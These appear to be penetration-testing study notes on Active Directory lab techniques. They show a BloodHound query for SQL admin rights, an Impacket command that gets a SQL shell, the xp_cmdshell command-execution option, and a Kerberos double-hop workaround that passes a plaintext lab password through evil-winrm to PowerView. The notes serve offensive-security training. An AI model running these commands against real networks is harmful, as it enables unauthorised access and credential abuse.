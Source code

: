 Here is a custom Cypher query for BloodHound to find users with SQL Admin Rights:
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

We can use `mssqlclient.py` from Impacket to get an SQL shell:
```sh
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

If your account has the proper access rights you can run `enable_xp_cmdshell` in the SQL shell, which allows you to execute operating system commands via the database  

<br />

## Kerberos "Double Hop" Problem

Here is the scenario:  

![KerbTwoHop.png](../Images/KerbTwoHop.png)

Say the Attack Host in this scenario is a Parrot box  

We obtain a set of credentials for a domain user and find that they are part of the Remote Management Users group on DEV01. We want to use PowerView to enumerate the domain, which requires communication with the Domain Controller, DC01  

When we connect to DEV01 using a tool such as evil-winrm, we connect with network authentication, so our credentials are not stored in memory, and therefore, will not be present on the system to authenticate to other resources on behalf of our user  

### Workaround #1: PSCredential Object

```PowerShell
# Create a PSCredential Object:
EvilWinRM > $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
EvilWinRM > $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)

# And pass it with any PowerView commands we run
EvilWinRM > get-domainuser -spn -credential $Cred | select samaccountname
```
